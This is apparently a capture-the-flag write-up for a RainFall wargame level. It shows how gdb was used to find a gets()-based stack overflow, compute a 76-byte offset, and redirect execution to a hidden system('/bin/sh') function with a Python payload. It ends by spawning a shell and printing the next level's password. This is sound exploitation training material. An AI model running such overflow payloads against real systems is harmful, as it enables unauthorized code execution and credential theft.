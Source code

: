 # level1

The program take no parameters but wait for input once launched. It prints the string passed in input and segfault with a large string :

```bash
level2@RainFall:~$ ./level2 
qwerty
qwerty
level2@RainFall:~$ ./level2 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

By looking at the functions, we can see that a function `run` is not called, and contains a call of `system` with string `/bin/sh` as parameter.

```gdb
(gdb) info functions
All defined functions:

Non-debugging symbols:
...
0x08048444  run
0x08048480  main
...

(gdb) disas run
Dump of assembler code for function run:
    ...
   0x08048472 <+46>:	mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   ...
End of assembler dump.

(gdb) x/s 0x8048584
0x8048584:  "/bin/sh"
```

By looking at the assembly code, we can see that the main function only calls `gets`, a function known to be vulnerable to buffer overflow.

To find the buffer length, we run the program with `gdb` with a breakpoint after the `gets` call.

```gdb
(gdb) disas main
...
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
(gdb) b *main+21
Breakpoint 1 at 0x8048495
```

We run the program and watch the stack after the execution of the function :

```bash
(gdb) r
Starting program: /home/user/level1/level1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048495 in main ()
(gdb) x/24wx $esp
0xbffff6b0:     0xbffff6c0      0x0000002f      0xbffff70c      0xb7fd0ff4
0xbffff6c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff700:     0x41414141      0x41414141      0x41414141      0x41414141
(gdb) i f
Stack level 0, frame at 0xbffff710:
eip = 0x8048495 in main; saved eip 0x41414141
Arglist at 0xbffff708, args: 
Locals at 0xbffff708, Previous frame's sp is 0xbffff710
Saved registers:
ebp at 0xbffff708, eip at 0xbffff70c
```

We can see that the value of `$eip` is `0x41414141` at the address `0xbffff70c`. We can also see that the buffer begin at the address `0xbffff6c0`. We can now calculate the length we need to fill before overriding the `$eip` address :

```bash
(gdb) p/d 0xbffff70c - 0xbffff6c0
$5 = 76
```

We can test the value of `$eip` with a custom input :

```bash
Starting program: /home/user/level1/level1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff708, args: 
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
```

We need to replace the `BBBB` by the address of the `run` function that is `0x08048444`. We need to pipe the malicious string into the program because otherwise it will interpret it as ASCII value.

We save the malicious string in a file so we can execute it with `gdb` :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x08\x04\x84\x44'" > /tmp/exploit1
...
(gdb) r < /tmp/exploit1
Starting program: /home/user/level1/level1 < /tmp/exploit1

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x8048495 in main; saved eip 0x44840408
 Arglist at 0xbffff708, args: 
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c
```

We can see that the saved `eip` inversed, due to the indianess. We invert the malicious string and we are now in the `run` function, but the program end without having a shell :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/exploit1 
level1@RainFall:~$ ./level1 < /tmp/exploit1
Good... Wait what?
Segmentation fault (core dumped)
```

With `cat` command, we will main `stdin` open after the `/bin/sh` is executed. We can see that we are now `level2` user and we can read the password file :

```bash
level1@RainFall:~$ (cat /tmp/exploit1;cat) | ./level1 
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Get the flag :

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/exploi1
level1@RainFall:~$ (cat /tmp/exploit1;cat) | ./level1
Good... Wait what?
$ whoami
level2
$ cd ../level2
$ cat .pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
